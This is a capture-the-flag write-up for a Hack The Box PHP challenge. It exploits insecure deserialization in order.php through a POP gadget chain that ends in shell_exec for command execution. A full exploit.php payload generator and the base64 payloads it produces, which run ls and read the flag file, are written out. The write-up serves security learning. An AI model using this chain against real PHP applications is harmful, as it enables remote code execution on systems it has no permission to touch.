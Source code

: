 # POP restaurant

HTB/challenges/POP resturant: []()

**Insecure Object Deserialization** at `order.php`.

```php
<?php

error_reporting(0);
require_once 'Helpers/ArrayHelpers.php';
require_once 'Helpers/CheckAuthentication.php';
require_once 'Models/PizzaModel.php';
require_once 'Models/IceCreamModel.php';
require_once 'Models/SpaghettiModel.php';
require_once 'Models/DatabaseModel.php';

isAuthenticated();
$username = $_SESSION['username'];
$id = $_SESSION['id'];

$db = new Database();

$order = unserialize(base64_decode($_POST['data']));

$foodName = get_class($order);

$result = $db->Order($id,$foodName);
if ($result) {
    header("Location: index.php");
    die();
} else {
    $errorInfo = $stmt->errorInfo();
    die("Error executing query: " . $errorInfo[2]);

```

The `order.php` includes the below files:

```php
<?php

namespace Helpers{
	use \ArrayIterator;
	class ArrayHelpers extends ArrayIterator {
		public $callback;

		public function current() {
			$value = parent::current();
			$debug = call_user_func($this->callback, $value);
			return $value;
		}
	}
}

class Spaghetti
{
    public $sauce;
    public $noodles;
    public $portion;

    public function __get($tomato)
    {
        ($this->sauce)();
    }
}

class Pizza {
	public $price;
	public $cheese;
	public $size;

	public function __destruct() {
		echo $this->size->what;
	}
}

class IceCream {
	public $flavors;
	public $topping;

	public function __invoke() {
		foreach ($this->flavors as $flavor) {
			echo $flavor;
		}
	}
}

?>

```

It is possible to perform a **pop (property-oriented programmain) chain** to execute arbitrary command.

- **__destruct** @ Pizza
- **__get** @ Spaghetti
- **__invoke** @ IceCream
- **call_user_func** @ Helpers\ArrayHelper

```text

POP chain:

Pizza {
	$size=Spaghetti {
		$sauce=IceCream {
			$flavors=Helpers\ArrayHelper {
				$callback = 'shell_exec'
				current = '<cmd>'
			}
		}
	}

}

```

## Exploitation

`exploit.php`
```php
<?php

require_once 'Helpers/ArrayHelpers.php';
require_once 'Helpers/CheckAuthentication.php';
require_once 'Models/PizzaModel.php';
require_once 'Models/IceCreamModel.php';
require_once 'Models/SpaghettiModel.php';
require_once 'Models/DatabaseModel.php';

$helper=new Helpers\ArrayHelpers(array(0=>'ls -lah ./Static/Images/ > ./Static/Images/lss.txt'));

$helper->callback='shell_exec';

$helper->current;

$ice=new IceCream();

$ice->flavors=$helper;

$spaghetti=new Spaghetti();

$spaghetti->sauce=$ice;

$pizza=new Pizza();

$pizza->size=$spaghetti;

print serialize($pizza) . "\n\n";

print base64_encode(serialize($pizza)) . "\n\n";

?>
```

Crafting the payload in the local docker container.

```bash
$ sudo ./build_docker.sh

$ sudo docker container cp ./exploit.php c7c5b45c3ba2:/var/www/html
Successfully copied 2.56kB to f134e4c806fe:/var/www/html

$ sudo docker exec -it c7c5b45c3ba2 bash
```

```bash
www-data@c7c5b45c3ba2:~/html$ ls
Helpers  Models  Static  exploit.php  index.php  login.php  order.php  register.php

www-data@c7c5b45c3ba2:~/html$ php exploit.php
O:5:"Pizza":3:{s:5:"price";N;s:6:"cheese";N;s:4:"size";O:9:"Spaghetti":3:{s:5:"sauce";O:8:"IceCream":2:{s:7:"flavors";O:20:"Helpers\ArrayHelpers":4:{i:0;i:0;i:1;a:1:{i:0;s:49:"ls -lah ./Static/Images/ > ./Static/Images/ls.txt";}i:2;a:1:{s:8:"callback";s:10:"shell_exec";}i:3;N;}s:7:"topping";N;}s:7:"noodles";N;s:7:"portion";N;}}

Tzo1OiJQaXp6YSI6Mzp7czo1OiJwcmljZSI7TjtzOjY6ImNoZWVzZSI7TjtzOjQ6InNpemUiO086OToiU3BhZ2hldHRpIjozOntzOjU6InNhdWNlIjtPOjg6IkljZUNyZWFtIjoyOntzOjc6ImZsYXZvcnMiO086MjA6IkhlbHBlcnNcQXJyYXlIZWxwZXJzIjo0OntpOjA7aTowO2k6MTthOjE6e2k6MDtzOjQ5OiJscyAtbGFoIC4vU3RhdGljL0ltYWdlcy8gPiAuL1N0YXRpYy9JbWFnZXMvbHMudHh0Ijt9aToyO2E6MTp7czo4OiJjYWxsYmFjayI7czoxMDoic2hlbGxfZXhlYyI7fWk6MztOO31zOjc6InRvcHBpbmciO047fXM6Nzoibm9vZGxlcyI7TjtzOjc6InBvcnRpb24iO047fX0=

ls -lah ./Static/Images/ > ./Static/Images/ls.txt
```

![BurpSuite ls](./images/ls_bs.png)

![Result of ls](./images/ls.png)

crafting the payload to execute a `cat flag.txt`:

```php

$helper=new Helpers\ArrayHelpers(array(0=>'cat /*_flag.txt > ./Static/Images/flag.txt'));

```

```bash
www-data@c7c5b45c3ba2:~/html$ php exploit.php 
O:5:"Pizza":3:{s:5:"price";N;s:6:"cheese";N;s:4:"size";O:9:"Spaghetti":3:{s:5:"sauce";O:8:"IceCream":2:{s:7:"flavors";O:20:"Helpers\ArrayHelpers":4:{i:0;i:0;i:1;a:1:{i:0;s:42:"cat /*_flag.txt > ./Static/Images/flag.txt";}i:2;a:1:{s:8:"callback";s:10:"shell_exec";}i:3;N;}s:7:"topping";N;}s:7:"noodles";N;s:7:"portion";N;}}

Tzo1OiJQaXp6YSI6Mzp7czo1OiJwcmljZSI7TjtzOjY6ImNoZWVzZSI7TjtzOjQ6InNpemUiO086OToiU3BhZ2hldHRpIjozOntzOjU6InNhdWNlIjtPOjg6IkljZUNyZWFtIjoyOntzOjc6ImZsYXZvcnMiO086MjA6IkhlbHBlcnNcQXJyYXlIZWxwZXJzIjo0OntpOjA7aTowO2k6MTthOjE6e2k6MDtzOjQyOiJjYXQgLypfZmxhZy50eHQgPiAuL1N0YXRpYy9JbWFnZXMvZmxhZy50eHQiO31pOjI7YToxOntzOjg6ImNhbGxiYWNrIjtzOjEwOiJzaGVsbF9leGVjIjt9aTozO047fXM6NzoidG9wcGluZyI7Tjt9czo3OiJub29kbGVzIjtOO3M6NzoicG9ydGlvbiI7Tjt9fQ==

cat /*_flag.txt > ./Static/Images/flag.txt
```

![BurpSuite cat](./images/cat_bs.png)

![Result of cat](./images/cat.png)

---

[https://github.com/apaonessaa](https://github.com/apaonessaa)
